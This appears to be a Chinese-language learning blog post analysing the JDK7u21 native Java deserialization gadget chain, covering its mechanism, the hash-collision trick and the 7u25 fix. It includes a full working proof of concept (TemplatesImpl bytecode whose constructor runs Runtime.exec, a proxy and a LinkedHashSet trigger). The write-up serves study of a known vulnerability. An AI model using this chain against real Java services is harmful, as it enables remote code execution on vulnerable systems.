



# 前言

开始学习JDK7u21的原生链，和CC链的逻辑比起来难了不少呜呜。


# 版本

JDK7u21及其之前都可以。当然这个之前是广义的，因为比如JDK7在更新，不代表JDK6就没有在更新。所以相对来说的可以认为是，JDK7u21这个版本以及之前时间发布的所有Java版本都有问题，之后的JDK6可能在某一段时间仍有问题，具体也不考究了。



```xml
    <properties>
        <maven.compiler.source>7</maven.compiler.source>
        <maven.compiler.target>7</maven.compiler.target>
    </properties>

    <dependencies>
        <dependency>
            <groupId>org.javassist</groupId>
            <artifactId>javassist</artifactId>
            <version>3.20.0-GA</version>
        </dependency>
    </dependencies>
```

下面用到`javassist`就是为了方便生成恶意类的字节码，而且版本要低一些，高版本不兼容jdk7，只能用jdk8及其更高版本。


# 分析

简单的理清一下这个链子的思路。

7u21这条链核心就在于`AnnotationInvocationHandler`这个类。联想到CC1的时候第一次接触它，这个类有两种利用思路，一种是利用它的`readObject()`，另一种就是利用它的`invoke`，因为`AnnotationInvocationHandler`是一个实现了`InvocationHandler`接口的类，可以应用于动态代理中。

在`invoke`方法中，如果传入的方法名是`equals`而且方法的参数列表只有一个`Object`对象的时候，就可以进入`equalsImpl()`方法。

```java
    public Object invoke(Object var1, Method var2, Object[] var3) {
        String var4 = var2.getName();
        Class[] var5 = var2.getParameterTypes();
        if (var4.equals("equals") && var5.length == 1 && var5[0] == Object.class) {
            return this.equalsImpl(var3[0]);
```

再跟进这个`equalsImpl()`方法：

```java
    private Boolean equalsImpl(Object var1) {
        if (var1 == this) {
            return true;
        } else if (!this.type.isInstance(var1)) {
            return false;
        } else {
            Method[] var2 = this.getMemberMethods();
            int var3 = var2.length;

            for(int var4 = 0; var4 < var3; ++var4) {
                Method var5 = var2[var4];
                String var6 = var5.getName();
                Object var7 = this.memberValues.get(var6);
                Object var8 = null;
                AnnotationInvocationHandler var9 = this.asOneOfUs(var1);
                if (var9 != null) {
                    var8 = var9.memberValues.get(var6);
                } else {
                    try {
                        var8 = var5.invoke(var1);
                    } catch (InvocationTargetException var11) {
                        return false;
                    } catch (IllegalAccessException var12) {
                        throw new AssertionError(var12);
                    }
                }

                if (!memberValueEquals(var7, var8)) {
                    return false;
                }
            }

            return true;
        }
    }
```


前两个if不用管，直接看else。通过`getMemberMethods`得到一个`Method[]`：

```java
    private Method[] getMemberMethods() {
        if (this.memberMethods == null) {
            this.memberMethods = (Method[])AccessController.doPrivileged(new PrivilegedAction<Method[]>() {
                public Method[] run() {
                    Method[] var1 = AnnotationInvocationHandler.this.type.getDeclaredMethods();
                    AccessibleObject.setAccessible(var1, true);
                    return var1;
                }
            });
        }

        return this.memberMethods;
```

然后进入for循环，遍历这个`Method[]`，然后调用方法：

```java
                if (var9 != null) {
                    var8 = var9.memberValues.get(var6);
```

这里的`Method[]`只能是通过`this.type`来得到：

```java
AnnotationInvocationHandler.this.type.getDeclaredMethods();
```

因为`memberMethods`属性是个瞬态属性不可控。

```java
private transient volatile Method[] memberMethods = null;
```


因此总的来说可以利用的就是，得到`this.type`的所有`Method[]`，然后依次调用所有。如果让`this.type`是`TemplatesImpl`的类的话，就自然会调用到`newTransformer`或者`getOutputProperties`。

而`invoke`的那个参数var1也就是调用方法的对象了，所以var1需要是我们构造的恶意的`TemplatesImpl`对象。


至此后面的部分就稍微有点理清了，但是关键是，哪里有合适的`equals`可以触发。

所以就要说到发明这个链子的师傅确实很强，联想到`set`这个数据结构：

> `Set`实际上相当于只存储key、不存储value的`Map`。我们经常用`Set`用于去除重复元素。

因为对象不重复，因此就会涉及到比较。`equals`是用来比较两个对象的内容是否相同。

> 最常用的`Set`实现类是`HashSet`，实际上，`HashSet`仅仅是对`HashMap`的一个简单封装。


看一下`HashSet`的`readObject()`方法：

```java
    private void readObject(java.io.ObjectInputStream s)
        throws java.io.IOException, ClassNotFoundException {
        // Read in any hidden serialization magic
        s.defaultReadObject();

        // Read in HashMap capacity and load factor and create backing HashMap
        int capacity = s.readInt();
        float loadFactor = s.readFloat();
        map = (((HashSet)this) instanceof LinkedHashSet ?
               new LinkedHashMap<E,Object>(capacity, loadFactor) :
               new HashMap<E,Object>(capacity, loadFactor));

        // Read in size
        int size = s.readInt();

        // Read in all elements in the proper order.
        for (int i=0; i<size; i++) {
            E e = (E) s.readObject();
            map.put(e, PRESENT);
        }
    }
```

`map`也是瞬态属性。这里得到的很明显是`HashMap`，然后依次从`s.readObject()`里面读取key，然后调用`map.put`方法放进去，因为也说了，`HashSet`的底层实现还是`HashMap`。

跟进`put`方法：

```java
    public V put(K key, V value) {
        if (key == null)
            return putForNullKey(value);
        int hash = hash(key);
        int i = indexFor(hash, table.length);
        for (Entry<K,V> e = table[i]; e != null; e = e.next) {
            Object k;
            if (e.hash == hash && ((k = e.key) == key || key.equals(k))) {
```

可以发现对放入的`key`计算`hash`值，如果当前的map中有`hash`值相同的`key`，就会`key.equals(k)`，如果让`k`是代理对象，`k`是我们的恶意`TemplatesImpl`的话，就可以和上面的分析接上了，成功命令执行。


我个人觉得7u21这个链子最精华的地方，一个就是找`equals`，另一个就是这个`hash`值的构造。

这两行代码可以简化成下面：

```java
        int hash = hash(key);
        int i = indexFor(hash, table.length);


        int h = 0;
        h ^= k.hashCode();
        h ^= (h >>> 20) ^ (h >>> 12);
        h ^ (h >>> 7) ^ (h >>> 4);

        h & 15;
```

之所以最后的`return h & (length-1);`是`h&15`，是因为`HashMap`的默认`length`是16：

```java
static final int DEFAULT_INITIAL_CAPACITY = 16;
```


从整个流程来看，想控制hash的话，就是要让代理对象的`hashCode()`和`TemplatesImpl`对象的`hashCode()`相同。但是`TemplatesImpl`的`hashCode()`是个`Native()`方法，每次运行都会改变，所以不可控。

再想想代理对象的`hashCode()`。很明显也得经过`invoke`，进入`hashCodeImpl`：

```java
            } else if (var4.equals("hashCode")) {
                return this.hashCodeImpl();
```

```java
    private int hashCodeImpl() {
        int var1 = 0;

        Entry var3;
        for(Iterator var2 = this.memberValues.entrySet().iterator(); var2.hasNext(); var1 += 127 * ((String)var3.getKey()).hashCode() ^ memberValueHashCode(var3.getValue())) {
            var3 = (Entry)var2.next();
        }

        return var1;
    }
```

简单来说就是遍历`this.memberValues`这个`Map`，把每次计算出来的`127*(key的hash)^(value的hash)`

就很膜作者的思路，他想到让`memberValues`这个Map只有一个键值对，让`key`的hash为0，这样127*0=0，然后0^xxx仍然是xxx（相同为0，不同为1）。再让value是恶意的`TemplatesImpl`对象，这样计算的就是那个`TemplatesImpl`对象的hash值，自然就相同了。tttttql。

至于`hash`为0的键，找到的是`f5a5a608`。


# 构造

稍微理清了整个链子的思路，就去构造即可。

首先是雷打不动的`TemplatesImpl`对象的设置：

```java
        byte[] evilCode = SerializeUtil.getEvilCode();
        TemplatesImpl templates = new TemplatesImpl();
        SerializeUtil.setFieldValue(templates,"_bytecodes",new byte[][]{evilCode});
        SerializeUtil.setFieldValue(templates,"_name","feng");
```

然后去产生`AnnotationInvocationHandler`对象，注意它的构造器：

```java
    AnnotationInvocationHandler(Class<? extends Annotation> var1, Map<String, Object> var2) {
        this.type = var1;
        this.memberValues = var2;
    }
```

`type`是`Templates.class`，`memberValues`就是要设置的那个巧妙的`Map`了：

```java
        HashMap<String, Object> memberValues = new HashMap<String, Object>();
        memberValues.put("f5a5a608","feng");
        Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor cons = clazz.getDeclaredConstructor(Class.class, Map.class);
        cons.setAccessible(true);
        InvocationHandler handler = (InvocationHandler)cons.newInstance(Templates.class, memberValues);
```

但是先暂时不把`TemplatesImpl`放进`memberValues`，接下来会说为什么。

然后就是动态代理的生成：

```java
        Templates proxy = (Templates) Proxy.newProxyInstance(
                Templates.class.getClassLoader(),
                new Class[]{Templates.class},
                handler
        );
```

然后就是生成反序列化链的起点，那个`HashSet`对象了：

```java
        HashSet hashSet = new LinkedHashSet();
        hashSet.add(templates);
        hashSet.add(proxy);
        memberValues.put("f5a5a608",templates);
```

这里再覆盖掉`f5a5a608`的value，就是为了防止这里的2次`add`直接触发了漏洞。

然后序列化和反序列化即可。总的POC：

```java
package com.feng.jdk7u21;

import com.feng.util.SerializeUtil;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;

import javax.xml.transform.Templates;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.HashSet;
import java.util.LinkedHashSet;
import java.util.Map;

public class Jdk7u21 {
    public static void main(String[] args) throws Exception{
        byte[] evilCode = SerializeUtil.getEvilCode();
        TemplatesImpl templates = new TemplatesImpl();
        SerializeUtil.setFieldValue(templates,"_bytecodes",new byte[][]{evilCode});
        SerializeUtil.setFieldValue(templates,"_name","feng");

        HashMap<String, Object> memberValues = new HashMap<String, Object>();
        memberValues.put("f5a5a608","feng");
        Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor cons = clazz.getDeclaredConstructor(Class.class, Map.class);
        cons.setAccessible(true);
        InvocationHandler handler = (InvocationHandler)cons.newInstance(Templates.class, memberValues);


        Templates proxy = (Templates) Proxy.newProxyInstance(
                Templates.class.getClassLoader(),
                new Class[]{Templates.class},
                handler
        );


        HashSet hashSet = new LinkedHashSet();
        hashSet.add(templates);
        hashSet.add(proxy);

        memberValues.put("f5a5a608",templates);
        byte[] bytes = SerializeUtil.serialize(hashSet);
        SerializeUtil.unserialize(bytes);
    }
}

```

```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

public class EvilTest extends AbstractTranslet {

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
    public EvilTest() throws Exception{
        Runtime.getRuntime().exec("calc");
    }
}
```

```java
package com.feng.util;

import javassist.ClassPool;
import javassist.CtClass;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;

public class SerializeUtil {
    public static Object getFieldValue(Object obj, String fieldName) throws Exception{
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        return field.get(obj);
    }
    public static byte[] getEvilCode() throws Exception{
        ClassPool pool = ClassPool.getDefault();
        CtClass clazzz = pool.get("EvilTest");
        byte[] code = clazzz.toBytecode();
        return code;
    }

    public static void unserialize(byte[] bytes) throws Exception{
        try(ByteArrayInputStream bain = new ByteArrayInputStream(bytes);
            ObjectInputStream oin = new ObjectInputStream(bain)){
            oin.readObject();
        }
    }

    public static byte[] serialize(Object o) throws Exception{
        try(ByteArrayOutputStream baout = new ByteArrayOutputStream();
            ObjectOutputStream oout = new ObjectOutputStream(baout)){
            oout.writeObject(o);
            return baout.toByteArray();
        }
    }
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj,value);
    }
}

```





构造的思路并不难理解，但是细节上还是很多问题的，我一开始调了好久才构造成功。

首先就是这里：

```java
        InvocationHandler handler = (InvocationHandler)cons.newInstance(Templates.class, memberValues);
```

`this.type`传的是`Templates.class`，我一开始传的是`TemplatesImpl.class`，想想可能应该没问题啊，但其实会在这里出问题：

```java
Method[] var1 = AnnotationInvocationHandler.this.type.getDeclaredMethods();


var8 = var5.invoke(var1);
```


如果是`TemplatesImpl.class`的话，这么多`Method`，怎么能控制第一个就调用可以利用的`newTransformer`或者`getOutputProperties`呢？经过我调式，第一个调用的是`init`方法，而且会直接抛出异常，导致后面的方法没法调用。为什么`Templates.class`就可以？看一下这个接口就知道了：

```java
public interface Templates {

    Transformer newTransformer() throws TransformerConfigurationException;

    Properties getOutputProperties();
}
```

它只有两个方法，而且都是可用的，所以不管先执行哪一个，都可以成功命令执行。


还有一个坑点就是这里：

```java
HashSet hashSet = new LinkedHashSet();
```

之前提的都是`HashSet`，为什么这里突然变成了`LinkHashSet`？

因为想想整个的利用流程就知道，反序列化的时候2次put，必须第一次put的是`TemplatesImpl`对象，第二次是代理对象，才可以成功反序列化。说白了就是，次序上需要可控：

- LinkedHashSet 是 Set 的一个具体实现，其维护着一个运行于所有条目的双重链接列表。此链接列表定义了迭代顺序，该迭代顺序可为插入顺序或是访问顺序。
- LinkedHashSet 继承与 HashSet，并且其内部是通过 LinkedHashMap 来实现的。有点类似于我们之前说的LinkedHashMap 其内部是基于 Hashmap 实现一样，不过还是有一点点区别的（具体的区别大家可以自己去思考一下）。
- 如果我们需要迭代的顺序为插入顺序或者访问顺序，那么 LinkedHashSet 是需要你首先考虑的。

因此利用`LinkedHashSet`就可以实现次序可控。

当然用`HashSet`也是可以的，不过得这样了，次序反过来：

```java
        hashSet.add(proxy);
        hashSet.add(templates);
```

不过其实说实话，我对于这里还是有一些疑惑的，是因为我昨天晚上这样打发现弹不出来计算器，今天早上这样就发现弹出来计算器了。而用`LinkedHashSet`的话肯定是按那个指定的顺序的，所以真的有些疑惑，而且感觉直接run和debug的情况下，用`HashSet`的顺序是相反的。有些迷叭这里。


# 修复

其实这个修复也是解答了我之前异或的一个点，就是：

```java
private final Class<? extends Annotation> type;

public interface Templates {
```

`this.type`设置成了`Templates.class`我当时就在迷为啥能打通。原来是`AnnotationInvocationHandler`的`readObject()`方法里面：

```java
    private void readObject(ObjectInputStream var1) throws IOException, ClassNotFoundException {
        var1.defaultReadObject();
        AnnotationType var2 = null;

        try {
            var2 = AnnotationType.getInstance(this.type);
        } catch (IllegalArgumentException var9) {
            return;
        }
```

通过`AnnotationType.getInstance`会抛出异常，但是但是但是，在`catch`处理中直接`return;`了，不影响之后的攻击。

在7u25中进行了修复，将`return`修改成了`throw new java.io.InvalidObjectException("Non-annotation type in annotation serial stream"); `。

但是似乎还有问题：



接下来再继续学习了。

# 参考链接

《Java安全漫谈》

https://blog.csdn.net/solitudi/article/details/119211849

https://b1ngz.github.io/java-deserialization-jdk7u21-gadget-note/

https://l3yx.github.io/2020/02/22/JDK7u21%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Gadgets/#Hash%E7%BB%95%E8%BF%87

https://wiki.jikexueyuan.com/project/java-collection/linkedhashset.html